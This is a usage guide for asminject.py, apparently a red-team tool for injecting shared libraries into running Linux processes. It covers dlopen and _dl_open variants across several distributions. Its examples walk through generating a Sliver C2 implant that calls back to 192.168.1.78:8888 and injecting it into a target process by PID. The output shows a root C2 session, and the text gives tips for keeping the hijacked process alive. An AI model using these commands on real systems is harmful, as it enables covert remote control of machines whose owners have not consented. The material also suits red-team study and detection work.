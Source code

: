 # asminject.py examples - Shared library injection

* [Background](#background)
* [Important](#important)
* [dlopen with multithreading](#dlopen-with-multithreading)
* [_dl_open with multithreading](#_dl_open-with-multithreading)
* [dlopen without multithreading](#dlopen-without-multithreading)
* [_dl_open without multithreading](#_dl_open-without-multithreading)

## Background

Injecting a shared library (`.so` file) into an existing process was the entire purpose of the [dlinject.py](https://github.com/DavidBuchanan314/dlinject) tool that `asminject.py` was originally derived from. `asminject.py` includes several payloads to achieve the same type of goal, depending on the specifics of the Linux distribution where you're running it.

When `asminject.py` was originally developed, `dlinject.py` was hardcoded to look for a function named `_dl_open` in the `ld` library and call it. However, at least in 2021, not every Linux distribution included a version of the `ld` library that exported `_dl_open` or an equivalent function. Here are the permutations I've discovered so far while testing `asminject.py`:

* Debian and derivatives
  * Debian
    * Debian 8.11, x86-64
	  * `libc` version is Debian GLIBC 2.19-18+deb8u10
      * `ld` library does not export `_dl_open`
	  * `libc` library exports `__libc_dlopen_mode`
	  * `libdl` library exports `dlopen`
    * Debian 10.6, ARM32 (Raspberry Pi)
	  * `libc` version is Debian GLIBC 2.28-10+rpi1
      * `ld` library does not export `_dl_open`
	  * `libc` library exports `__libc_dlopen_mode`
	  * `libdl` library exports `dlopen` with signature `void *dlopen([const] char *filename, int flags);`
	* Debian 11.0 x86-64
	  * `libc` version is Debian GLIBC 2.31-13
      * `ld` library does not export `_dl_open`
	  * `libc` library exports `__libc_dlopen_mode`
	  * `libdl` library exports `dlopen`
  * Kali
    * kali-rolling (updated in June 2022), x86-64
      * `libc` version is Debian GLIBC 2.33-6
      * `ld` library does not export `_dl_open`
      * `libc` library exports `__libc_dlopen_mode`
      * `libdl` library exports `dlopen` with signature `void *dlopen([const] char *filename, int flags);`
* OpenSUSE
  * OpenSUSE Tumbleweed 20220719, x86 (32-bit) and OpenSUSE Tumbleweed 20220731, x86-64
    * `libc` version is GNU libc 2.35
    * `ld` library exports `_dl_open`, and the signature should be `void * _dl_open(const char *file, int mode, const void *caller_dlopen, Lmid_t nsid, int argc, char *argv[], char *env[]);`
	* `libc` library exports `dlopen` with signature `void *dlopen([const] char *filename, int flags);`
	* `libdl` library does not export `dlopen`

Some (older?) versions of `ld` allegedly use(d?) a simpler signature for `_dl_open`: `void * _dl_open(const char *file, int mode, const void *caller_dlopen);`, but I haven't run across this yet in order to test it.

In most cases, you should be able to use the first example below, because it handles both the `libdl` and `libc` variations on calling the `dlopen` function, and it's multithreaded, so the target process should continue as usual after the code is injected. The other options are provided for more constrained scenarios, e.g. if the target process doesn't have `libpthread` available, or if it's more advantageous to call `_dl_open` to avoid a particular detection mechanism.

## Important

Regardless of the payload and shared library you select, in virtually all cases you should avoid causing the shared library to issue a process-level `exit`, as this will cause the target process to exit as well. In my testing, common C2 agents for Linux will perform a system-level exit instead of a thread-level exit. I assume this is because unlike Windows, where calling a thread-level `exit` is more or less the same across versions, locating and calling the `pthread_exit` function on an arbitrary Linux distribution and version is more complicated, and so most(?) C2 authors don't implement it.

In the case of [Sliver](https://github.com/BishopFox/sliver) and [Metasploit](https://github.com/rapid7/metasploit-framework), what this means is that instead of e.g. calling `kill` in a Sliver session or `exit` in a Meterpreter session, you should just send the session to the background unless you absolutely want the target process to exit.

## dlopen with multithreading

The `dlinject-threaded.s` payload is the preferred option for injecting shared libraries into an existing process using `asminject.py`. It is the most straightfoward, best supported on various distributions (at least in my testing), and the target process will continue executing normally after injection.

This payload requires one variable: `librarypath`, which should point to the library you want to inject.

This payload requires relative offsets for the `ld` shared library used by the target process.

Locate or build a `.so` file to open. The example below uses a [Sliver](https://github.com/BishopFox/sliver) C2 listener and implant.

Note: in this example, the `--arch=386` option for the implant generation is specified because the corresponding `asminject.py` example below is using the `x86` architecture. For `x86-64`, you'd want to use `--arch=amd64`. For `arm32`, you could try using `--arch=arm`, but as of this writing Sliver doesn't seem to handle it well. I was going to include an example that used the `linux/armle/meterpreter/reverse_tcp` payload from Metasploit instead, but it seems that `elf-so` output for that payload isn't working at present.

```
# ./sliver-server     

    ███████╗██╗     ██╗██╗   ██╗███████╗██████╗
    ██╔════╝██║     ██║██║   ██║██╔════╝██╔══██╗
    ███████╗██║     ██║██║   ██║█████╗  ██████╔╝
    ╚════██║██║     ██║╚██╗ ██╔╝██╔══╝  ██╔══██╗
    ███████║███████╗██║ ╚████╔╝ ███████╗██║  ██║
    ╚══════╝╚══════╝╚═╝  ╚═══╝  ╚══════╝╚═╝  ╚═╝

All hackers gain infect
[*] Server v1.5.17 - 814670dc6d023f290fefd3e0fd7e0c420f9bb2e8
[*] Welcome to the sliver shell, please type 'help' for options

...omitted for brevity...

[server] sliver > mtls

[*] Starting mTLS listener ...

[server] sliver > jobs

 ID   Name   Protocol   Port 
==== ====== ========== ======
 2    mtls   tcp        8888 

[server] sliver > generate --mtls=192.168.1.78:8888 --os=linux --arch=386 --format=shared --save=/home/user --skip-symbols

[*] Generating new linux/386 implant binary
[!] Symbol obfuscation is disabled
[*] Build completed in 00:01:48
[*] Implant saved to /home/user/MAGENTA_NEEDLE.so
```

Inject the DLL into the target process:

```
# python3 ./asminject.py 30320 dlinject-threaded.s \
   --relative-offsets-from-binaries \
   --var librarypath "/home/user/MAGENTA_NEEDLE.so"
```

Back in the Sliver console, you should see something like this:

```
[*] Session 5abe2db4 MAGENTA_NEEDLE - 192.168.1.79:5976 (localhost.localdomain) - linux/386 - Fri, 29 Jul 2022 15:35:21 PDT

[server] sliver > sessions -i 5abe2db4

[*] Active session MAGENTA_NEEDLE (5abe2db4)

[server] sliver (MAGENTA_NEEDLE) > info

        Session ID: 5abe2db4-cf75-46aa-bb41-7ad288028f0d
              Name: MAGENTA_NEEDLE
          Hostname: localhost.localdomain
              UUID: 0f444f35-de17-41a3-bc44-c30405c83d04
          Username: root
               UID: 0
               GID: 0
               PID: 30320
                OS: linux
           Version: Linux localhost.localdomain 5.18.11-1-pae
              Arch: 386
         Active C2: mtls://192.168.1.78:8888
    Remote Address: 192.168.1.79:5976
         Proxy URL: 
Reconnect Interval: 1m0s
```

## _dl_open with multithreading

The `dlinject-ld-threaded.s` payload mimics the original `dlinject.py`, calling the `_dl_open` function that some versions of the `ld` library export (e.g. on OpenSUSE), and is multithreaded so that the target process continues executing normally after injection. `dlinject-ld-threaded.s` is currently an experimental feature, and only provided for the x86 architecture.

```
# python3 ./asminject.py 30320 dlinject-ld-threaded.s \
   --relative-offsets-from-binaries \
   --var librarypath "/home/user/MAGENTA_NEEDLE.so"
```
## dlopen without multithreading

The `dlinject.s` payload is identical to the `dlinject-threaded.s` payload, except that it does not spawn a separate thread. This has the downside of not allowing the target process to keep executing normally after injection, but means that `libpthread` is not required. Just swap out the payload name, e.g.:

```
# python3 ./asminject.py 30320 dlinject.s \
   --relative-offsets-from-binaries \
   --var librarypath "/home/user/MAGENTA_NEEDLE.so"
```

## _dl_open without multithreading

The `dlinject-ld.s` payload is identical to `dlinject-ld-threaded.s`, except that it does not call `_dl_open` in a separate thread. Like `dlinject.s`, this means that the `libpthread` library functions are not required, but it also means that the target process will stop doing its normal work in favour of whatever the injected code starts doing. `dlinject-ld.s` is currently an experimental feature, and only provided for the x86 architecture.

```
# python3 ./asminject.py 30320 dlinject-ld.s \
   --relative-offsets-from-binaries \
   --var librarypath "/home/user/MAGENTA_NEEDLE.so"
```
